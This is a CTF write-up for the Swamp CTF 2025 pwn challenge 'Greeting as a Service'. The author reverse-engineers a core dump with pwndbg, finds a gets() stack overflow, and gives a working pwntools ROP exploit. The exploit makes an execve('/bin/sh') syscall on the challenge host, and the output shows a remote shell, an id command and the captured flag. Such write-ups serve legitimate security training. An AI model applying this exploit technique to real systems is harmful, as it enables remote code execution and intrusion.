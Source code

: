 ```yaml
---
title: Greeting as a Service
date: 2025-03-30T17:34:37+03:00
description: Writeup for Greeting as a Service [Swamp CTF 2025]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

A friend of mine set up a greeting as a service server. He gave me a core dump of it to play around with but won't give me source. Find anything useful?

## Intuition

We get a coredump of the remote service. A coredump can't be explored by executing instructions, but the memory can be examined.
Based on the backtrace, I guess we are in some kind of `main()` function:

```
$ gdb -q -core ./coredump_GAAS
pwndbg> bt
#0  0x00000000004011a3 in ?? ()
#1  0x00007ffff7de8083 in ?? ()
#2  0x00007ffff7ffc620 in ?? ()
#3  0x00007fffffffde68 in ?? ()
#4  0x0000000100000000 in ?? ()
#5  0x00000000004011a3 in ?? ()
#6  0x0000000000401240 in ?? ()
#7  0xbdeebaa290c7ef1c in ?? ()
#8  0x0000000000401090 in ?? ()
#9  0x00007fffffffde60 in ?? ()
#10 0x0000000000000000 in ?? ()
```

This guess is purely based on the return addresses. I think from number 4 onwards it's just random values found on the stack, but the addresses 1 to 3 are probably entry functions from libc, like `libc_start_main()`.
So that leaves address 0 to be the `main()` function. Let's disassemble it:

```
pwndbg> x/33i $rip
=> 0x4011a3:	endbr64 
   0x4011a7:	push   rbp
   0x4011a8:	mov    rbp,rsp
   0x4011ab:	sub    rsp,0x10
   0x4011af:	mov    rax,QWORD PTR [rip+0x2e9a]        # 0x404050
   0x4011b6:	mov    ecx,0x0
   0x4011bb:	mov    edx,0x2
   0x4011c0:	mov    esi,0x0
   0x4011c5:	mov    rdi,rax
   0x4011c8:	call   0x401080
   0x4011cd:	mov    rax,QWORD PTR [rip+0x2e6c]        # 0x404040
   0x4011d4:	mov    ecx,0x0
   0x4011d9:	mov    edx,0x2
   0x4011de:	mov    esi,0x0
   0x4011e3:	mov    rdi,rax
   0x4011e6:	call   0x401080
   0x4011eb:	mov    QWORD PTR [rbp-0xa],0x0
   0x4011f3:	mov    WORD PTR [rbp-0x2],0x0
   0x4011f9:	lea    rdi,[rip+0xe04]        # 0x402004
   0x401200:	mov    eax,0x0
   0x401205:	call   0x401060
   0x40120a:	lea    rax,[rbp-0xa]
   0x40120e:	mov    rdi,rax
   0x401211:	mov    eax,0x0
   0x401216:	call   0x401070
   0x40121b:	lea    rax,[rbp-0xa]
   0x40121f:	mov    rsi,rax
   0x401222:	lea    rdi,[rip+0xdee]        # 0x402017
   0x401229:	mov    eax,0x0
   0x40122e:	call   0x401060
   0x401233:	mov    eax,0x0
   0x401238:	leave  
   0x401239:	ret
```

We can notice 5 calls, let's break them down:

- The first two calls, at `0x4011c8`, and `0x4011e6` are to the same address: `0x401080`. Additionally, they function called seems to have the following signature, based on loaded registers: `void func(long? a, int b, int c, int d)`. Additionally, `b` is always 0, `c` is always 2, `d` is always 0. We can see by printing the address where it takes `a` from, that it is most likely a file structure:

```
pwndbg> x/10gx 0x404050
0x404050:	0x00007ffff7fb0980	0x0000000000000000
0x404060:	0x0000000000000000	0x0000000000000000
0x404070:	0x0000000000000000	0x0000000000000000
0x404080:	0x0000000000000000	0x0000000000000000
0x404090:	0x0000000000000000	0x0000000000000000
pwndbg> x/10gx 0x00007ffff7fb0980
0x7ffff7fb0980:	0x00000000fbad2088	0x0000000000000000
0x7ffff7fb0990:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09a0:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09b0:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09c0:	0x0000000000000000	0x0000000000000000
```

Very often I have seen `fbad...` inside the flags field of `FILE` objects. So I realized this is probably `stdin` or `stdout` from libc. Then I thought what function signature that takes a `FILE` pointer in the first slot could be called here.
Given almost all pwn challenges disable buffering on `stdout` and `stdin` before the actuall program, I realized this is probably `setvbuf`: `int setvbuf(FILE *stream, char *buf, int mode, size_t size)`.

It fits perfectly and `buf` can be NULL.

Additionally, another hint that this (and actually the others too) are libc functions is the fact that disassembling the address of the function it calls yields instructions that look **a lot** like they're from the PLT section of a binary:

```
pwndbg> x/3i 0x401080
   0x401080:	endbr64 
   0x401084:	bnd jmp QWORD PTR [rip+0x2f9d]        # 0x404028
   0x40108b:	nop    DWORD PTR [rax+rax*1+0x0]
```

Continuing the analysis, we can see an array of 10 bytes is initialized with 0 next:

```
   0x4011eb:	mov    QWORD PTR [rbp-0xa],0x0 ; <--- 8 bytes
   0x4011f3:	mov    WORD PTR [rbp-0x2],0x0  ; <--- 2 bytes
```

Then this pattern of calls:

```
   0x4011f9:	lea    rdi,[rip+0xe04]        # 0x402004
   0x401200:	mov    eax,0x0
   0x401205:	call   0x401060
   0x40120a:	lea    rax,[rbp-0xa]
   0x40120e:	mov    rdi,rax
   0x401211:	mov    eax,0x0
   0x401216:	call   0x401070
   0x40121b:	lea    rax,[rbp-0xa]
   0x40121f:	mov    rsi,rax
   0x401222:	lea    rdi,[rip+0xdee]        # 0x402017
   0x401229:	mov    eax,0x0
   0x40122e:	call   0x401060
```

We can notice function `0x401060` takes only one string argument. The argument is:

```
pwndbg> x/1gx 0x402004
0x402004:	Cannot access memory at address 0x402004
```

Uhh? That's weird. What are the mappings:

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x401000           0x402000 r-xp     1000   1000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x403000           0x404000 r--p     1000   2000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x404000           0x405000 ---p     1000   3000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
```

Where is that???? Well here we did even more guesswork, where I remembered I had seen cases before where the read-only segment of memory is doubled in a binary,
with it being both at `0x403000` and `0x402000`. So I said "well let's check 0x403004" then:

```
pwndbg> x/1gx 0x403004
0x403004:	0x2073692074616857
pwndbg> x/1s 0x403004
0x403004:	"What is your name?"
```

Great! This is also the thing printed when you connect to the remote, without and newlines. So then `0x401060` MUST be `printf()`.

All that is left now is figuring out what `0x401070` is. Judging from the fact that it takes only one argument, a buffer pointer (the one that was initialized earlier), We thought it MUST be `gets()`, because the remote target is waiting for input at this point.

So we have a simple buffer overflow and we can ROP chain. Lots of gadgets to choose from as well.

## Solution

We reuse the ideas from the [HTB Cyber Apocalypse 2025 Crossbow challenge](https://dothidden.xyz/cyber_apocalypse_ctf_2025/crossbow/).

Syscall a `read()`, insert `/bin/sh`, syscall `execve()`, win.

```py
#!/usr/bin/env python3

from pwn import *

pop_rdi = 0x0000000000401194
pop_rsi = 0x0000000000401196
pop_rax = 0x0000000000401188
pop_rdx = 0x0000000000401198
syscall = 0x0000000000401190
data_addr = 0x404060
gets = 0x401070

payload = b"a" * 0xa + b"b" * 8 + p64(pop_rax) + p64(0) + p64(pop_rdi) + p64(data_addr) + p64(gets) + p64(pop_rax) + p64(59) + p64(pop_rdi) + p64(data_addr + 16) + p64(pop_rsi) + p64(data_addr) + p64(pop_rdx) + p64(0) + p64(syscall)

fake_execve = p64(data_addr + 16) + p64(0) + b"/bin/sh\x00"

target = remote("chals.swampctf.com", 40003)
target.sendline(payload)
target.sendline(fake_execve)
target.interactive()
```

### Flag

```
$ ./solve.py 
[+] Opening connection to chals.swampctf.com on port 40003: Done
[*] Switching to interactive mode
What is your name?Hello, aaaaaaaaaabbbbbbbb\x88\x11!
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
$ cat flag.txt
swampCTF{t1m3_t0_s@y_g00dby3}
```

